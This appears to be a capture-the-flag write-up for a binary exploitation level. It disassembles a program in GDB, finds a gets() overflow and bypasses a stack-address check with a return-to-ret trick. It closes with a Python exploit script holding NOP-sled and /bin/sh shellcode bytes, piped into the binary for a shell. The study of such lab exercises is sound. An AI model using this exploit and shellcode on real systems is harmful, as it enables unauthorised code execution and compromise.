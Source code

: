 Let's start with 'GDB':
``` shell
$ gdb level2 
(gdb) set disassembly-flavor intel
(gdb) set disassembly-flavor intel
(gdb) disas *main
Dump of assembler code for function main:
   0x0804853f <+0>:  push   ebp
   0x08048540 <+1>:  mov    ebp,esp
   0x08048542 <+3>:  and    esp,0xfffffff0
   0x08048545 <+6>:  call   0x80484d4 <p>
   0x0804854a <+11>: leave  
   0x0804854b <+12>: ret    
End of assembler dump.
```

Let's inspect `p` funtion:
```shell
(gdb) disas *p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   ebp
   0x080484d5 <+1>:     mov    ebp,esp
   0x080484d7 <+3>:     sub    esp,0x68
   0x080484da <+6>:     mov    eax,ds:0x8049860
   0x080484df <+11>:    mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    eax,[ebp-0x4c]
   0x080484ea <+22>:    mov    DWORD PTR [esp],eax
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:    mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:    mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:    and    eax,0xb0000000
   0x08048500 <+44>:    cmp    eax,0xb0000000
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    eax,0x8048620
   0x0804850c <+56>:    mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:    mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:    mov    DWORD PTR [esp],eax
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    eax,[ebp-0x4c]
   0x0804852a <+86>:    mov    DWORD PTR [esp],eax
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    eax,[ebp-0x4c]
   0x08048535 <+97>:    mov    DWORD PTR [esp],eax
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave  
   0x0804853e <+106>:   ret    
End of assembler dump.
```

We see a `gets` call.
So we can perform a buffer overflow.

However, simple buffer overflow won't work.
That's because the code verifies that return address is not on the stack:
```
   0x080484f2 <+30>:    mov    eax,DWORD PTR [ebp+0x4]
   ...
   0x080484fb <+39>:    and    eax,0xb0000000
   0x08048500 <+44>:    cmp    eax,0xb0000000
```

We can utilize a simple trick.
We want to overwrite return address with a stack address.
But what if put into return address the return address itself and then the stack address?
So the program will return to return itself, then to desired address.

This will work like this:
```
   0x1  pop   $eax  ; stack: 0x1 0xb1 / pop 0x1
   0x2  jump  $eax  ; stack: 0x1 / jump to 0x1
```
and then:
```
   0x1  pop   $eax  ; stack: 0xb1 / pop 0xb1
   0x2  jump  $eax  ; stack: / jump to 0xb1
```

To implement following thick we need to assemble a string for buffer overflow.
Let's do this with a Python script:
``` python
import struct

indent = 'a' * (0x4c + 4)
ret = struct.pack('I', 0x0804853e)
eip = struct.pack('I', 0xbffff75c)
nop = '\x90' * 100
test = '\xcc' * 4 + 'b' * 50
bin_sh = "\xeb\x11\x5e\x31\xc9\xb1\x32\x80"\  
         "\x6c\x0e\xff\x01\x80\xe9\x01\x75"\  
         "\xf6\xeb\x05\xe8\xea\xff\xff\xff"\  
         "\x32\xc1\x51\x69\x30\x30\x74\x69"\ 
         "\x69\x30\x63\x6a\x6f\x8a\xe4\x51"\  
         "\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"


print(indent + ret + eip + nop + bin_sh)
```

Then run then programm and supply the string for exploit:
``` shell
$ (python /tmp/exploit.py; cat) | ./level2
```